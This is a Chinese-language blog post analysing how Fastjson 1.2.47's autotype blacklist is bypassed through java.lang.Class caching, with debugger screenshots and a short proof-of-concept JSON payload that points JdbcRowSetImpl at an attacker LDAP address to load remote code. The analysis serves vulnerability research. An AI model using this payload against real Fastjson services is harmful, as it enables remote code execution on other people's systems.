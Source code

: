 ```yaml
---
layout:     post
title:      Fastjson反序列化漏洞分析 第二弹
subtitle:   
date:       2020-06-18
author:     跳跳龙
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - java安全
            
---
```

 

#### 前言
最近fastjson有火了，1.2.68再次出现安全问题。而且我大致浏览了一下，这次升级，不是简简单单的加了黑名单这么简单，而是我觉得会跟1.2.24，1.2.47一样，会成为fastjson的里程碑。截止到我正在写下这篇文章的时候，fastjson已经更新到了1.72。更新的好快啊。据我所知，应该1.2.69目前就是安全的版本了。大家可以在github上compare一下69和68,看看做了哪些更新防护。

上一次写fastjson博文的时候居然是去年的事情了，时间真的好快。上一篇文章我主要是写的是TemplatesImpl利用链在Fastjson中的价值。fastjson没有CVE编号，所以很多漏洞没有一个标准的描述影响到哪些版本。我自己呢也并没有专门的去搜集这些事情。但是在我的印象里，只需要知道有几个重要版本出现的问题以及绕过的方式就可以了。

1.2.24这个版本以及之前是没有任何安全防护的，而且也是默认开启autotype开关的。

从24之后，autotype开关就默认关闭了，在1.2.47这个版本的时候，存在了关闭状态也可以进行绕过的情况，原因是使用了java.lang.Class进行了缓存绕过。

最新的应该就是68了，在47的基础上，再次进行了绕过。

#### 47版本
先花费时间把47的情况记录一下。POC如下：

```
String payload  = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},"
                + "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
                + "\"dataSourceName\":\"ldap://ip/Exploit\",\"autoCommit\":true}}";
        JSON.parse(payload);
```

这个POC做了2层的嵌套。第一层是使用java.lang.Class。这个类不在黑名单里，可以先把JdbcRowSetImpl压入mappings容器中，这样在第二轮扫描到@type字段的时候，还会再次调用到checkAutoType函数，由于JdbcRowSetImpl在mappings容器中，所以不会进入到检测黑名单的if分支中就提前return了，实现了巧妙的绕过。(但是在47之前的一些版本中，由于if语句有变动，会导致一部分开启auto反而无法成功的情况，同时也有autotype开启与否都可以成功的情况，大家知道这个trick就可以了，本质上是由于if语句写法有更新导致的)。

在fastjson词法分析的函数中，首先扫描到第一个@type。将java.lang.Class传入checkAutoType函数。我这里没开autotype，所以会直接获取class,并成功返回
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-01.jpg)

返回clazz之后，会进入到MiscCodec的deserialze反序列化函数中
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-02.jpg)

在deserialze函数中，会把自己的val属性 也就是JDBCRowSetImpl loadclass。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-03.jpg)

在loadClass函数中，会对类压入mappings。这个mappings里的类就不会通过黑名单的校验了。
由于这个cache默认为true。所以会压入mappings
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-04.jpg)

这一轮的扫描结束之后，等到下一次词法扫描再次扫描到@type的时候，同理，会把JdbcRowSetImpl带入checkAutoType中。
由于默认没开AutoType 所以不会进入到第一个if判断中
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-05.jpg)
直接会从mapping中获取，提前return。不会进入到最后面没开autotype的黑名单检测了。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-06.jpg)

大致就是这样巧妙地将黑名单的类返回了。

#### 总结
68版本最近几位师傅发了自己的研究成果出来，我这个菜逼看了一下，感觉师傅就是师傅们，各个思路猥琐的不行，但基本上的思路还是利用了异常类来进行绕过，绕过的姿势短时间我要吸收一下。在47这个绕过的基础上去debug一下，继续记录博客中来。

